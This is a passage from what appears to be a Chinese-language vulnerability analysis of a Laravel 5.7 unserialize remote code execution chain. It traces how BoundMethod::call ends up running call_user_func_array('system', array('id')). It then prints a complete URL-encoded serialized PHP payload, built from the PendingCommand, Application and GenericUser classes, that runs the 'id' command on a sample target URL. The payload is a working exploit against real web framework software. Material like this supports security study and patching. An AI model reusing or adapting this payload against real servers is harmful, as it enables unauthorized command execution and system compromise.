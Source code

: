 `static::getCallReflector($callback)`这句用于利用反射获取`$callback`的对象，继续往下执行`static::addDependencyForCallParameter`，会对`$callback`的对象添加一些参数，但是这些不重要。最后一行才是关键。

最后将我们传入的`$parameters`参数数组和`$dependencies`数组合并，`$dependencies`数组为空。

最后在`BoundMethod`对象的`call`方法中我们相当于执行了以下代码:

```
call_user_func_array('system',array('id')) 
```

此时run函数中$exitcode值即为命令的执行结果

![image](img/a31fb633d5645ab965fa5e9d3258e24f.png)

```
payload：
http://www.0-sec.org/laravel-5.7/public/index.php/index?code=O%3A44%3A%22Illuminate%5CFoundation%5CTesting%5CPendingCommand%22%3A4%3A%7Bs%3A10%3A%22%00%2A%00command%22%3Bs%3A6%3A%22system%22%3Bs%3A13%3A%22%00%2A%00parameters%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A2%3A%22id%22%3B%7Ds%3A6%3A%22%00%2A%00app%22%3BO%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3A2%3A%7Bs%3A22%3A%22%00%2A%00hasBeenBootstrapped%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00bindings%22%3Ba%3A1%3A%7Bs%3A35%3A%22Illuminate%5CContracts%5CConsole%5CKernel%22%3Ba%3A1%3A%7Bs%3A8%3A%22concrete%22%3Bs%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3B%7D%7D%7Ds%3A4%3A%22test%22%3BO%3A27%3A%22Illuminate%5CAuth%5CGenericUser%22%3A1%3A%7Bs%3A13%3A%22%00%2A%00attributes%22%3Ba%3A2%3A%7Bs%3A14%3A%22expectedOutput%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7Ds%3A17%3A%22expectedQuestions%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7D%7D%7D%7D 
```

![image](img/2af9e9fce777280991594ab77492ad0e.png)
